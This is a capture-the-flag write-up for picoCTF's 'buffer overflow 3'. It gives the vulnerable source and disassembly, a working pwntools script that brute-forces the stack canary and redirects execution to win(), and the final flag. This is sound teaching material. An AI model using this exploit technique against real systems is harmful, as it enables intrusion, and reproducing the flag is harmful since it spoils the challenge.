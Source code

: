 # buffer overflow 3 : Binary Exploitation

Do you think you can bypass the protection and get the flag?  
It looks like Dr. Oswal added a stack canary to this [program](vuln) to protect against buffer overflows. You can view source [here](vuln.c).  
And connect with it using: `nc saturn.picoctf.net 60026`

Author : Sanjay C / Palash Oswal

# Solution

For now, try executing it.
```
$ nc saturn.picoctf.net 60026
How Many Bytes will You Write Into the Buffer?
> 10
Input> aaaaaaaaaaa
Ok... Now Where's the Flag?
```
The service reads input of the size we specified.  
Check the source code.
```c vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```
This code reveals the existence of win() and read_canary(). Additionally, it is found to be vulnerable to buffer overflows because it reads input of the size we specified, while the buffer used to store the data has a fixed size.  
Check the security mechanism.
```
$ checksec vuln
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/colza-picoctf/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.13.1 --> 4.14.0).
    Update with: $ pip install -U pwntools
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
PIE is confirmed not to be enabled.  
First, identify the canary. Then buffer overflow, enter `offset + canary + offset + return address + win() address`. In this way, the flag can be obtained.
```c
while (x<BUFSIZE) {
  read(0,length+x,1);
  if (length[x]=='\n') break;
  x++;
}
```
Because the input read size can be specified, the number of characters read from the input can be incremented one by one, allowing the canary to be identified one character at a time. Note that since the read function is used, no newline or null characters are included at the end.

Determine the offset.  
The part of memcpy in vuln function:
```
 80494a2:       c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
 80494a9:       c7 c0 54 c0 04 08       mov    eax,0x804c054
 80494af:       8b 00                   mov    eax,DWORD PTR [eax]
 80494b1:       89 45 f0                mov    DWORD PTR [ebp-0x10],eax
```
The part of `read(0,buf,count);`:
```
 8049531:       83 c4 10                add    esp,0x10
 8049534:       8b 85 6c ff ff ff       mov    eax,DWORD PTR [ebp-0x94]
 804953a:       83 ec 04                sub    esp,0x4
 804953d:       50                      push   eax
 804953e:       8d 45 b0                lea    eax,[ebp-0x50]
 8049541:       50                      push   eax
 8049542:       6a 00                   push   0x0
 8049544:       e8 e7 fb ff ff          call   8049130 <read@plt>
```
The part of return:
```
80495bf:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
80495c2:       c9                      leave
80495c3:       c3                      ret
```
From these assemblies, it can be seen that the canary is in ebp-0x10, the buf is in ebp-0x50 and the return address is in ebp-0x4.  
Thus, these offsets is as follow.
* to canary: 64bytes
* from canary to return address: 12bytes

Execution code below:
```python solve.py
from pwn import *
import time

elf = ELF('./vuln')

win_addr = elf.symbols['win']

canary_bf = b""
for i in range(4):
    for j in range(256):
        num = 64 + i + 1
        payload = b"a" * 64 + canary_bf + bytes([j])
        p = remote('saturn.picoctf.net', 60026)
        p.sendlineafter(b"> ", str(num).encode())
        p.sendlineafter(b"> ", payload)
        data = p.recv()
        p.close()
        time.sleep(0.2)

        if b"Ok" in data:
            canary_bf += bytes([j])
            break

print(canary_bf)
payload  = b"a" * 64 + canary_bf + b"a" * 12 + p32(0x80495c3) + p32(win_addr)

p = remote('saturn.picoctf.net', 60026)

p.sendlineafter(b"> ", b"96")
p.sendlineafter(b"> ", payload)

p.interactive()
```
Execute it.
```
$ python solve.py
...
[+] Opening connection to saturn.picoctf.net on port 60026: Done
[*] Closed connection to saturn.picoctf.net port 60026
b'BiRd'
[+] Opening connection to saturn.picoctf.net on port 60026: Done
[*] Switching to interactive mode
Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_fba9d49b}
[*] Got EOF while reading in interactive
```

Get the flag!

`picoCTF{Stat1C_c4n4r13s_4R3_b4D_fba9d49b}`
